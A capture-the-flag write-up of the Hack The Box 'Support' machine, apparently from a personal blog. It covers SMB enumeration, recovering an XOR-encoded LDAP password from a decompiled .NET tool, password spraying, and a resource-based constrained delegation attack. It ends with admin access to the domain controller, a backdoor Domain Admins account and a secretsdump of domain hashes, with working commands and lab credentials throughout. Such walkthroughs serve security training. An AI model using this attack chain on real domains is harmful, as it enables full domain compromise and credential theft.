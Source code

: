 ```yaml
---
layout: post
title: Hack the Box - Support
category: "Writeups"
---
```


## NMAP
```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-14 14:27:05Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration
# SMB
- We have read access into the "support-tools" share
- ![[anonymous_shares.png]](/images/HTB/Support/anonymous_shares.png)
- In the share there is a bunch of tools but only "UserInfo.exe.zip" seems interesting
- ![[rid_brute.png]](/images/HTB/Support/rid_brute.png)
- Since we have IPC$ access, we can rid brute force to get users
- Command to get list of users from output:
```bash
cat list.txt| awk {'print $6'} | cut -d '\' -f 2 > users.txt
```
# DNSpy
- Under LdapQuery in UserInfo.Services, we see an encoded password and key being xored
- ![[dnspy_enc_passwd.png]](/images/HTB/Support/dnspy_enc_passwd.png)
- Pass: ```0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E```
- Key: ```armando : 61 72 6d 61 6e 64 6f```

```csharp
namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}
```
Steps for getting the password - I used [CyberChef](https://gchq.github.io/CyberChef/) 
- Base64 decode
- xor twice with keys ``
- PW: ```nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```


# Password Spray
- Once we obtain the password, we can password spray with our user list
- ![[ldap_pass_spray.png]](/images/HTB/Support/ldap_pass_spray.png)


- We find that the ldap user is valid ```ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```

# Bloodhound
- Nothing interesting from bloodhound with the ldap user
- support user is part of Remote  Management Users
- ![[BH_RMU.png]](/images/HTB/Support/BH_RMU.png)
## NMAP P2
- Running nmap again (all ports) we find 5985 open, WinRM!
```bash
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-28 02:22:11Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53608/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking WinRM with CME
- No one from our list with the password above can remote in, we need support user
# Enumerating LDAP
```bash
ldapdomaindump ldap://10.10.11.174 -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 
```
```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "DC=support,DC=htb"
```
```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "CN=support,CN=Users,DC=support,DC=htb" 
```

- There are a bunch of files in the ldapdomaindump we can look through for the search base
- By specifying the support user in the search base, we can see the password in the "info" section
```support : Ironside47pleasure40Watchful```
- ![[support_ldap_pw.png]](/images/HTB/Support/support_ldap_pw.png)
- Check with CME: ![[cme_winrm_support.png]](/images/HTB/Support/cme_winrm_support.png)
- We can remote in!
## Enumeration as support
# Bloodhound
- Looking through at our node, we can see we are a part of "Shared Support Accounts" which has "GenericAll" over the Domain Controller
- ![[BH_edges.png]](/images/HTB/Support/BH_edges.png)
- What does this mean? Full control of a computer object can be used to perform a resource based constrained delegation attack.

[Follwing hacktricks guide for creating the fake computer](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegationhttps://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
	
- I only used [powermad](https://github.com/Kevin-Robertson/Powermad) and [powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```powershell
New-MachineAccount -MachineAccount TURCO$ -Password $(ConvertTo-SecureString 'turco123!' -AsPlainText -Force) -Verbose
```
```powershell
Set-ADComputer DC$ -PrincipalsAllowedToDelegateToAccount TURCO$ 
```
```powershell
Get-ADComputer DC$ -Properties PrincipalsAllowedToDelegateToAccount
```
- Once we have all that setup, we can verify with:
```powershell
 Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'
```


![[new_fake_com.png]](/images/HTB/Support/new_fake_com.png)

- Next, we can use this [script](https://github.com/tothi/rbcd-attack) to allow us to delegate as Administrator by editing the "msDs-AllowedToActOnBehalfOfOtherIdentity" attribute
```bash
python rbcd-attack/rbcd.py support.htb\\support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -t DC -f TURCO
```
- ![[attribute_edit_success.png]](/images/HTB/Support/attribute_edit_success.png)
- We can also verify everything worked using "impacket-rbcd"

```bash
impacket-rbcd support.htb/support:Ironside47pleasure40Watchful -delegate-to 'DC$' -action read -dc-ip 10.10.11.174
```
- ![[impacket-rbcd_proof.png]](/images/HTB/Support/impacket-rbcd_proof.png)

- Lastly, we create the ST using the "ldap/dc.support.htb" SPN 
```bash
impacket-getST support.htb/TURCO$:turco123! -spn 'ldap/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174
```

- Now we can wmiexec into the Domain Controller as Admin!
- ![[PWNED.png]](/images/HTB/Support/PWNED.png)
```bash
KRB5CCNAME=Administrator.ccache impacket-wmiexec -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174
```

## Post Exploitation
# Secretsdump
- Create a new user
```windows
net user turc0 Turco123123!! /add /domain
```
- Add to domain admins group
```windows
net group "Domain Admins" turc0 /add /domain
```

- Dump!
```bash
impacket-secretsdump support.htb/turc0@dc.support.htb -dc-ip 10.10.11.174 -just-dc
```